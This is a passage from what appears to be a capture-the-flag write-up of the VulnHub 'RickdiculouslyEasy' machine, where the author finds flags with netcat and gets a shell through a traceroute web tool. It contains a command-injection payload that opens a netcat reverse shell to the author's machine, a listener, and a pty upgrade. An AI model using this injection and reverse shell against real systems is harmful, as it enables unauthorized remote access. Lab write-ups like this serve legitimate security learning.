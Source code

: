uggg I even tried robots.txt and for some reason it did't load.

```console
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

Navigating to /root_shell.cgi

```console
<html><head><title>Root Shell
</title></head>
--UNDER CONSTRUCTION--
<!--HAAHAHAHAAHHAaAAAGGAgaagAGAGAGG-->
<!--I'm sorry Morty. It's a bummer.-->
</html>
```

Navigating to tracertool.cgi we find something

![Screenshot_2022-04-22_11-39-44](https://user-images.githubusercontent.com/68706090/164774674-00de982a-1733-421a-90d1-315715442714.png)

Not having luck at anything on this yet so lets take a look at port 6000, nothing on the URL gave me anything good so, lets run Netcat on it.

### NC 

```console
noob2uub@kali:~/Documents/vulnhub/rickdiculouslyeasy$ nc 192.168.1.228 60000
Welcome to Ricks half baked reverse shell...
# ls
FLAG.txt 
# cat FLAG.txt
FLAG{Flip the pickle Morty!} - 10 Points 
```

we have another flag and inside a shell with the ability to do nothing. We still have that tracert tool and port 13337

Running NC on that port I was able to get another flag. 

```console
noob2uub@kali:~/Documents/vulnhub/rickdiculouslyeasy$ nc 192.168.1.228 13337
FLAG:{TheyFoundMyBackDoorMorty}-10Points
```
I finally was able to get a shell from the tracert console, I went through every reverse shell on pentest monkey and plus multple ports. I decided to try 4444 which is what metasploit runs off of.


```console
127.0.0.1; nc 192.168.1.166 4444 -e /bin/bash;
````
```console
noob2uub@kali:~/Documents/vulnhub/rickdiculouslyeasy$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.166] from (UNKNOWN) [192.168.1.228] 46224
python3 -c 'import pty; pty.spawn("/bin/bash")'
ls
root_shell.cgi
tracertool.cgi
cd ..
ls
cgi-bin
html
whoami
apache
```